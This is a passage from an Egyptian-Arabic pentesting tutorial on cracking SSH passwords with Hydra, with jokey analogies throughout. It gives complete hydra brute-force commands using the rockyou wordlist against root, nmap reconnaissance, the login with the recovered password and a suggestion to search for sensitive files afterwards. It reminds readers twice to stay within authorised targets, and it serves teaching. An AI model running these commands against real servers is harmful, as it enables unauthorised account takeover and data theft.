 مثال طريف: "ده زي ما تقول للراجل: روح للباب الإلكتروني ده، وجرب المفاتيح دي لحد ما النور يقولك: أهلاً بيك!"

---

#### أمر متقدم: تخصيص كامل
لو عايز تتحكم في كل التفاصيل:
- hydra -L users.txt -P rockyou.txt 192.168.1.1 ssh -t 10 -vV -f -w 5

- -L users.txt: قايمة مستخدمين.
- -P rockyou.txt: قايمة كلمات مرور.
- -t 10: 10 خيوط للسرعة.
- -vV: تفاصيل كاملة عن كل محاولة.
- -f: توقف لما تلاقي كلمة السر.
- -w 5: تأخير 5 ثواني بين المحاولات.

مثال طريف: "ده زي ما تبعت فرقة كاملة مع كل واحد شنطة مفاتيح، وتقولهم: جربوا واحد واحد بس خلوا بالكم من الجيران عشان ما يزعقوش!"

---

### 4. نصائح عملية للبينتسترز
- ابدأ بقايمة صغيرة زي passwords.txt، وبعدين استخدم rockyou.txt لو محتاج.
- لو السيرفر بيمنعك، قلل الـ Threads بـ -t 5 وأضف تأخير بـ -w 10.
- جرب خدمات شائعة زي SSH وHTTP الأول.
- خليك قانوني واشتغل على أهداف عندك إذن بيها.

مثال طريف: "تخيّل إنك بتحاول تفتح تلاجة صاحبك، لو خبطت كتير هيقولك: أنت بتعمل إيه ياض؟ جيب الإذن الأول!"

---

### خطوات عملية للاستغلال (Pentesting)
هنعمل خطة لكسر كلمة سر SSH على سيرفر (في بيئة قانونية):

1. اجمع المعلومات:
   - اعرف الـ IP (مثل 192.168.1.100).
   - اتأكد إن SSH شغال:
     - nmap -p 22 192.168.1.100

2. جهز الأدوات:
   - نزل Hydra لو مش موجودة:
     - sudo apt-get install hydra
   - جهز قايمة كلمات (مثل rockyou.txt):
     - gunzip /usr/share/wordlists/rockyou.txt.gz

3. نفذ الهجوم:
   - ابدأ بفحص بسيط:
     - hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh -t 4
   - لو عايز فحص متقدم:
     - hydra -L users.txt -P rockyou.txt 192.168.1.100 ssh -t 10 -vV -f

4. تحليل النتايج:
   - لو لقت كلمة السر، هتظهر زي:
     - [22][ssh] host: 192.168.1.100   login: root   password: 123456
   - ادخل بيها:
     - ssh root@192.168.1.100

5. استغلال (اختياري):
   - سجل النتايج في تقرير، ولو عايز تكمل، دور على ملفات حساسة بعد الدخول.

---

### ملاحظة أخيرة
Hydra قوية جدًا، ابدأ بالأوامر البسيطة وكبرها حسب احتياجك. خليك قانوني ومركز في شغلك!

تمام؟ لو عايز أضيف أو أشرح أمر معين، قوللي!>)
